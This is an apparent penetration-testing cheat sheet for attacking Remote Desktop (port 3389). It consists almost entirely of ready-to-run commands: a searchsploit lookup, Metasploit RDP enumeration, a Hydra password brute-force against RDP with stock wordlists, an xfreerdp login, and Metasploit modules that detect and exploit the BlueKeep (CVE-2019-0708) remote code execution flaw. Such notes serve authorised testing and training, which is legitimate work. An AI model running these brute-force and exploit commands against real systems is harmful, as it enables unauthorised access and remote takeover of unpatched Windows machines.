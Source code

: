 # Port 3389 - RDP



```
# CHECK THE VERSION
searchsploit rdp VERSION
```

### RDP Enumeration

{% code title="Metasploit Enumeration" %}
```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS IP
set RPORT PORT
run
```
{% endcode %}

### RDP Brute-Force

{% code title="Hydra" overflow="wrap" %}
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://IP -s PORT -t 4
```
{% endcode %}

## Make a Connection

### xfreerdp

{% code title="RDP connection" %}
```bash
xfreerdp /u:USER /p:PASS /v:IP:PORT
```
{% endcode %}



## Know  Vulnerabilities

### BlueKeep (CVE-2019-0708)

{% code title="Metasploit Enumeration" %}
```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOST IP
set RPORT PORT
run
```
{% endcode %}

{% code title="Metasploit Exploitation" %}
```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOST IP
set RPORT PORT
show targets
set target N
exploit
```
{% endcode %}
